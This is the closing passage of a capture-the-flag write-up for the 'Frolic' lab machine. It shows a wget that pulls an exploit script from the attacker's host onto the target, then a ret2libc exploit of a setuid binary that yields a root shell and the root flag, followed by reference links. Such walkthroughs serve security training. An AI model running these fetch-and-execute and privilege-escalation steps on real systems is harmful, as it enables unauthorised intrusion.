 Download our script on the target machine:

```bash
$ wget http://10.10.14.7:8000/exploit.py
wget http://10.10.14.7:8000/exploit.py
--2020-12-30 01:49:06--  http://10.10.14.7:8000/exploit.py
Connecting to 10.10.14.7:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 330 [text/x-python]
Saving to: 'exploit.py'

exploit.py          100%[===================>]     330  --.-KB/s    in 0s      

2020-12-30 01:49:06 (28.6 MB/s) - 'exploit.py' saved [330/330]
```

## Root

Execute it, and then get root flag:

```bash
www-data@frolic:/home/ayush/.binary$ ./rop $(python /tmp/exploit.py)
./rop $(python /tmp/exploit.py)
# id
id
uid=0(root) gid=33(www-data) groups=33(www-data)
# cat /root/root.txt
cat /root/root.txt
85d3fdf03f969892538ba9a731826222
# 
```
___

## Useful links

- [CVE-2017-9101](https://cvedetails.com/cve/CVE-2017-9101/)
- [dCode - Ook! langage](https://www.dcode.fr/langage-ook)
- [dCode - Brainfuck langage](https://www.dcode.fr/langage-brainfuck)
- [base64decode.org](https://www.base64decode.org/)
- [hackndo - ret2libc](https://beta.hackndo.com/retour-a-la-libc/)